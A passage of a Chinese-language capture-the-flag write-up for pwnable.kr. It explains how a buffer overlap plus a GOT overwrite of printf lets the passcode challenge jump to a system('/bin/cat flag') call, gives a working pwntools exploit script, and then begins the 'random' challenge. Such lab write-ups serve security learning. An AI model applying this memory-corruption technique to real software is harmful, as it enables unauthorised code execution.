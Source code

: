 ```
```

在login函数中，passcode1所对比的值的地址是ebp+var_10，passcode2所对比的值是ebp+var_c的值。

大致栈结构如下

![image-20230327032144013](https://typora-1256197903.cos.ap-beijing.myqcloud.com/typora/image-20230327032144013.png)

所以我们只需要精心构造name中的值，即可修改passcode1的值，passcode1相对输入点（name）的偏移为0x60，虽然我们无法修改passcode2的值，但是此时got表是可写的，可以利用scanf把程序即将调用的函数的got表覆写成我们想要的地址，这样就能跳到我们想要的函数了，也就是在运行第一个scanf之后，我们可以通过修改fflush、printf等函数的got表来跳转到login函数中的system函数

```
.text:080485E3                 mov     dword ptr [esp], offset command ; "/bin/cat flag"
.text:080485EA                 call    _system
```

另外要把system的地址转换为十进制，因为输入的scanf使用了%d参数，所以payload为

```python
from pwn import *
p = make_packer(32)
s = ssh(user='passcode', host='pwnable.kr', password='guest', port=2222)
io = s.process(executable='./passcode')
printf_got = 0x0804a000
system_in_login_addr = b'134514147'
payload = b'a' * 96 + p(printf_got) + b'\n' + system_in_login_addr
io.sendline(payload)
io.interactive()
```

## 06. random

> Daddy, teach me how to use random value in programming!

```c
#include <stdio.h>

int main(){
        unsigned int random;
        random = rand();        // random value!

        unsigned int key=0;
        scanf("%d", &key);

        if( (key ^ random) == 0xdeadbeef ){
                printf("Good!\n");
                system("/bin/cat flag");
                return 0;
        }

        printf("Wrong, maybe you should try 2^32 cases.\n");
        return 0;
}

```
